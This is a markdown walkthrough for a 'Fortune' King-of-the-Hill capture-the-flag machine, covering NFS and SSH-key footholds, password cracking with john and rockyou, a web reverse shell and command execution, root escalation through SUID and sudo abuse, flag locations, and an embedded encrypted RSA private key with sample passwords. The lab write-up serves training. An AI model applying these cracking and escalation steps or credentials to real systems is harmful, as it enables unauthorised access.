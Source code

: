 # Fortune KOTH machine

## footholds

hermes:

- using showmount -e <ip> reveals a share. mounting this with: `mount -t nfs 10.10.241.174:/srv/nfs /tmp/nfs -o nolock` can find a `hermes_ssh` file
- this can be decoded using vignere with key n, then broken with ssh2john, john and rockyou, and will provide ssh access as hermes
  
Note this key and its passphrase is random every time
  
fortuna:
  
- on port 3333 is a service that returns base64. access with nc (curl will also work)
- this is a zip file when decoded, that needs to be cracked
- inside is a creds.txt file that contains fortuna's password
  
  passwords seen: `MzE0NDBlND`, `ZGI4NjI0Mz`
  
  ```
  curl RHOST:3333 | base64 -d > f.zip
  /opt/john/zip2john f.zip > fj
  john --wordlist=rockyou.txt fj
  echo PASS | unzip f.zip
  cat creds.txt
  ```
  
www-data 1:
  
- the website on 80 has an ip and port field. this will on a random change connect back as a reverse shell, if tried multiple times
- as the form fields are randomised, it must be done manually, but is not difficult. 
- connects back as www-data
  
www-data 2:
  
- under port 80 `/_styles` is another website with straight command execution as www-data with the `luck` querystring param
- it has a 1 in 4 chance of running, but will also block any use of the text `nc`
  
## root
  
- there is no root squash on the nfs mount, so you can drop a suid binary in there from attack box
- `ionice /bin/sh -p`
- `/usr/bin/nice /bin/sh -p`
- `xargs -a /dev/null sh -p`
- `python -c 'import pty; pty.spawn("/home/lucky_shell")'` - is random so needs lots of tries
- `fortuna` and `pico`:
  
  ```
  sudo pico
  ^R^X
  reset; s
  ```
- `kairos` and python repl: to get to kairos use suid on find: `find . -exec /bin/sh -p \; -quit`
  ```
  python
  import pty;
  pty.spawn("/bin/bash");
  ```
    
## flags
  
- /media/darts
- /srv/blackjack
- /lib/checkers
- /usr/games/flag
- /usr/local/games/flag
- /geama/flag
  
## hermes key, cuteko pass:

not sure if this random
  
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,57145A8D54A46E26334807885A43DA74

MBpsTtnjX14/G2VnexI+K4WFalKGoTm1/OHobQl+3EPZVY4LU4khWu2JABjv/EXv
cct34TxEu2kw7tYZmdlkosQANLdcLkryRZO8wnQmTmh/nAA9JOOsDNXDYUUteurf
j1UD3XouSNdygA7lDyGJPVqHPbkCOueG27Vryp5660kPpXmyEU7kOMMUpNzncR8r
yd6cQQDSd/ydzAhGpwdXkA4oxdX1qDCWz6Qc7hlMQbAUokGIsqwuRE1smloSwLln
dzTS6eXSq15XSM1Qcs4MVhyY9KX7nWN+8CfUrPRi1+msUlfGyhMacV6kHkl7aAQk
J58RsVKxcpkc8JkOHle//On1ZJ6noTOcSB1czMbhemH3n21FgreSOs8vxUqlX9x7
gVnjEbk7LbFBCObUhVUii3GURlpP1ro4Hv34VvOJl1MKtCOuI0kMyqYjTtFnnVLZ
zBKNoKOlzjM2FTZ2a2ziNAI1OEcO6KZRSPnSGZ0v0ra7GdP9Gj9HHGiIcZbwhex2
+6HGR87WtUWzEG0OCkiR38GhBrJ+byDGYbbAClJu/iun/unTApH7KzZTguOP8ICk
6Pinw3BsKcZbxhAQtjPNhzO/J7c+eMjUtf4yXqz3V0TtjujsluAv05IuTZbjHnCA
un7avtJFRXUVCkPfrEMIN00wOezrNSy2WMF5YzzAuZes4bHbPx2l6neDp6VmfVkg
cK6hZswiEks5MyMLftcLb80fg6hXwy4ZO51Cb4CKEwGU15C1cXG7vglqKlgLscVk
DAg8ySZwwAdffefxhNtiMkxDKu3BWU2onMyjLH7F57DM/gyZm4jGb7RXbvijva/o
PXZCIc0+nWbEAYYV/gG7u09cPWLQmyIaWKaLDxKMXyUW/8nfhIGo2LnACaMIAmZY
bqa9BV1Pkc6zc0hyDqRKa+b71WH5PWXvXETRs2BJcrKyAowiyd1N+EjYi+vzCD6D
gPZXi2wDvEQldNK58NY7IH2Jq1K6+K/6PeRdY2SEp6lQIijBogwFR4AxyNEt/jTe
LEA9ZpJid2sBO+O+SuPDMHfyl/TPQXB0kAAm0GuSmtxqOSrOYX3xPxJ7/+5ioDJZ
TqzNv+uD311ZPuWrKOApc27ZNu7x0Hbd6ATUaqTCkT1eCu4dFPvAROf2DQ8X0Fnx
kui1kvxEc2zU8QqLCizYxZnOLfhF6rtRLfM+zyTA96imlYTtDJMkwgAQU/gxPKuC
PEA6T08FD6TMhJYnjODKmYpYyj21CyKioqmIBR+b4okwYkAQ8WaLZVzCq4C8hoRm
RPCX49MyO6xTdF0mi+2Lsnq+sGJFaeThK5X4J+DGeKmN80cJ7lg0csKmaOTrWX3E
nv/T8D/SDbwybcSj7lISsZAagxaL/dpIIGkP87ZXsRAN57lGZ8gH1n4zMYACH1rt
fNRrsHGlYsqQGvhCtgM9iUZwJALAkqy71XXXy9e+a31QkmG8kRhBiQTex+GZRv6O
gX0bg5csBqJMyJtMNm35GRhoxOmQb0yzKJW/B9uLA3yc/qEOJuu+BjcNx9YrqhoE
h2ZlzchBizy6lU08RI/Py0OGB6YfTWTXM89AENH3sttMI765+CZaypRUBDWDQSrF
-----END RSA PRIVATE KEY-----
```

